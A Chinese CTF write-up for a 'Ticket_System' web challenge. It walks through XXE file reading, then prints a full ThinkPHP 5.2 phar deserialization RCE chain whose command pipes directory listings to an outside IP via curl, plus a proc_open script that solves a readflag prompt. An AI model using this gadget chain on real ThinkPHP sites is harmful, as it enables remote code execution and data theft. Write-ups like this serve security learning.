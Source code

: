 Ticket_System
----
Upload your Ticket.

考点
----
* XXE
* tp5.2 rce
* popen

做题过程
----
观察网页源码，发现关键js文件main.js：

![](./screenshot/screenshot1.png)

尝试一下XXE，发现可以成功读取文件：

![](./screenshot/screenshot2.png)

但是尝试except无法成功执行，应该是PHP没有安装该扩展。

![](./screenshot/screenshot3.png)

提示的意思应该是说flag不在web目录下，而是在系统的root目录下，直接XXE读取权限不足，需要其他的方式。

读取hints.txt的内容：**You'r clever. But not enough. Try RCE!**

应该是要找tp5.2的RCE链，之前Smile师傅的文章里讲过，直接拿来用了：

https://github.com/Nu1LCTF/n1ctf-2019/tree/master/WEB/sql_manage

```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("Smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("Smi1e" => "system");

        public function get($system)
        {
            $this->data = array("Smi1e" => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}

namespace {
    $Conver = new think\model\Pivot("curl http://101.200.47.157/ -d '`ls -l /`';");
    $payload = new think\process\pipes\Windows($Conver);
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($payload); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo urlencode(serialize($payload));
}
?>
```
（做题的时候赶时间没截图，复现的时候，发现/tmp被人动手脚了，没法上传Phar，下面只能文字说明）

进去之后，尝试读取根目录的flag，权限不足，分析拥有者为www-data。

除此之外，还发现了一个readflag可执行文件，分析了一波之后，发现和\*CTF的一模一样，于是直接拿当时fish师傅的脚本来跑了。

```php
<?php
$descriptorspec = array(
	0 => array("pipe", "r"),	// 标准输入，子进程从此管道中读取数据
	1 => array("pipe", "w"),	// 标准输出，子进程向此管道中写入数据
	2 => array("file", "/tmp/.a/error-output.txt", "a") // 标准错误，写入到一个文件
);

$cwd = '/';
$env = array();

$process = proc_open('/readflag', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
	$a = fread($pipes[1], 1024);
	$a = fread($pipes[1], 1024);

	$a = explode("\n", $a);
	eval("\$result = $a[0];");
	echo("\$result = $a[0];");

	fwrite($pipes[0], "$result\n");

	var_dump(fread($pipes[1], 1024));
	var_dump(fread($pipes[1], 1024));
	var_dump(fread($pipes[1], 1024));

	fclose($pipes[0]);
	fclose($pipes[1]);
	$return_value = proc_close($process);

	echo "command returned $return_value\n";
}
?>
``` 

**flag{3ff32148-e229-41fd-b7b9-d09e76d35daf}**